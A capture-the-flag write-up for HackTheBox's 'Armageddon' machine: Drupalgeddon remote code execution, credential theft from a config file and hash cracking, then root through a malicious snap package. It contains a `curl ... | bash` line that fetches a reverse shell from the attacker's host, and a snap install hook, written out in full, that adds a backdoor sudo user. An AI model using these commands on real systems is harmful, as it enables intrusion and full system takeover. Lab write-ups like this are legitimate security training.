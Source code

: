 ```yaml
---
title: Armageddon Writeup [HTB]
tags: [HackTheBox, snap, Drupal]
image: /assets/images/armageddon/armageddon.png
published: true
banner: true
---
```


Armageddon is a Linux based machine that was active since March 27th of 2021 to July 24th, on this machine we will exploit the well known Drupalgeddon vulnerability, crack the hash of the admin user of Drupal, and generate a malicious snap package that runs code when it's installed so we can access as root.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.233
nmap -sC -sV -p 80,22, -Pn -o scan.txt 10.10.10.233

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

There are only two open ports, ssh and a webpage on port 80, so we check the webpage.

![](/assets/images/armageddon/webpage.png)

Checking Wappalyzer something quickly cathches our attention.

![](/assets/images/armageddon/wappalyzer.png)

# [](#header-1)Gaining Access

As soon as we see an old version of Drupal, plus recalling the name of the machine one thing comes to our mind, drupalgeddon, which is a vulnerability that would allow us to get remote command execution on the machine, there is exploit for it on Metasploit, but if you don't want to use it there are also some PoCs over internet, we are using [this](https://github.com/FireFart/CVE-2018-7600) one. Here the payload is "id" so we change it for `curl 10.10.14.205/shell.sh | bash`, on this case the machine seems to be blocked to connect to uncommon ports, so we are using port 80 for hosting our reverse shell file, also the reverse shell will connect to port 443, once we run the exploit we get a shell into the machine.

![](/assets/images/armageddon/shell1.png)

# [](#header-1)Lateral Movement

As usual we hunt for configuration files, on this case the configuration file for Drupal is located at "/var/www/html/sites/default/settings.php", there we find some credentials to access to the mysql database.

![](/assets/images/armageddon/settings.png)

The system seems somewhat hardenized, so we can't stabilyze our shell, and the output of mysql commands will only show after we exit from it, so we will have to work like that, at the end we are able to get the hash of the admin of Drupal.

![](/assets/images/armageddon/mysql.png)

After cracking it with john, we get that the password of "brucetherealadmin", is "booboo", there is also a user with the same name on the machine, and he uses the same password, so now we can connect through SSH and recover user.txt.

![](/assets/images/armageddon/shell2.png)

# [](#header-1)Privilege Escalation

We check if we can run anything with sudo.

![](/assets/images/armageddon/sudo.png)

We can install any snap package that we want, so if we can generate a package that executes any commands when it's installed we could get root access, there was a vulnerability for an older version of snap that does that, [dirty sock](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html), it used a vulnerability to simulate to run as a user with uid=0 (root), since we can run snap install as sudo we don't neet to simulate to run as root since we will be doing that, and only need to generate the malicious snap package, to do that we execute the next commands:

```
sudo snap install --classic snapcraft
mkdir explo
cd explot
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install
cat > snap/hooks/install << "EOF"
useradd 5ubte -m -p '$1$123$/g/OEhhmSIgc4aBHVYEz8/' -s /bin/bash
usermod -aG sudo 5ubte
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
EOF
cat > snap/snapcraft.yaml << "EOF"
name: explo
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock

grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
EOF
```

Since we can execute commands we could use any method to get root access, but we are following the proposed method of creating a user, adding it to sudo gruop, and allowing him to run any command with sudo, to generate the hashsed password we run `openssl passwd -1 -salt 123 hacked1234`, on this case the password will be "hacked1234". Here we find a problem, we can't create a snap package on our current system (parrot os), to solve that we go to the [docs](https://snapcraft.io/docs/build-on-lxd), and see that we can build the package on an lxd container, to do that we run the next commands as root:

```
snap install lxd
lxd init
snapcraft cleanbuild
```

After all that is done we get the file "explo_0.1_amd64.snap", now we just have to upload it, and run `sudo snap install explo_0.1_amd64.snap --dangerous --devmode`, dangerous because the package doesn't come from a trusted source, and devmode because as is explained on the exploit blog the package was created on devmode, once the package is installed we can change to our new user and run `sudo bash` to get access as root.

![](/assets/images/armageddon/root.png)